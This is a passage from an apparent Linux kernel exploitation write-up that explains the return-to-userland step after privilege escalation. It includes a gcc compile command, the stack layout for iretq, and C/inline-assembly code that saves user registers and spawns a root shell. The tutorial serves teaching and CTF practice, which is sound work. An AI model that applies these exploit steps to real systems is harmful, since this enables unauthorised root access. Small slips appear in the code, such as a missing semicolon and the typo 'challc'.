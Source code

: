 The above exploit script code can now be compiled using the following `GCC` command.

```bash
gcc -o chall challc -masm=intel -static
```

#### Return-to-UserLand

After changing our privileges, we now have to find a way to return to userland and pop a shell. When the Kernel returns to UserLand it uses the following instructions `iretq` and `sysretq`. 

In this post, we will be using the `iretq` instruction. This instruction will require some registers which should be set-up on the stack in the following order. 

```http
RIP - Next Instruction
CS - Code Segment Register
eFLAGS - eFlag Registers
SP - Stack Pointer Register
SS - Stack Segment Register
``` 
The `RIP` register can finally be set to the address of a function that will pop a shell. The state of the other registers can be saved before exploitation and pushed on the stack after `iretq`. 

First saving the code to save the registers will be declared in the `save_registers` function with the following code. 

```c
static unsigned long user_rflags, user_ss, user_sp, user_cs, user_rip;

void save_registers(void){
	__asm__(
		"mov user_ss, ss;"
		"mov user_cs, cs;"
		"mov user_sp, rsp;"
		"pushf;" //push all flag registers
		"pop user_rflags;"
	)
}
```

Finally, the function whose address will be stored in the `rip` register will be as follows:

```c

void get_shell(void){
	char *args[] = {"/bin/sh", NULL};
	char *envp[] = {NULL};


	if (getuid() == 0 && getgid() == 0){
		execve(args[0], args, envp);
	}else{
		puts("[-] Failed to privz!!");
		_exit(-1);
	}
}
```
